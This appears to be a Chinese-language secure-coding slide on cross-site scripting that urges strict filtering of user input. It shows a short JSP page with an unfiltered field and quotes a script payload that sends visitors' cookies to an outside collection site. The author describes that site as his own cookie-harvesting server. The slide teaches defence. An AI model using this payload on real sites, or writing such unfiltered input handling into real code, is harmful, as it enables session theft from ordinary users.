

# 跨站脚本漏洞(XSS)
规范要求
对用户输入进行严格过滤
【代码示例】

我们直接输入<script>window.open(“xxx?param=”+document.cookie)</script>,当用户查看这个页面的时候，就会请求www.jwdstef.com这个站点，这个站点是我自己搭建的专门用来收集用户cookie的，这样我就盗取了用户的cookie。
| <%@ page language="java"contentType="text/html; charset=UTF-8"pageEncoding="UTF-8"%> <html> <head> <title>XSS测试</title> </head> <body> 页面内容：<input type="text" name="age" value=""> </body> </html> |
| --- |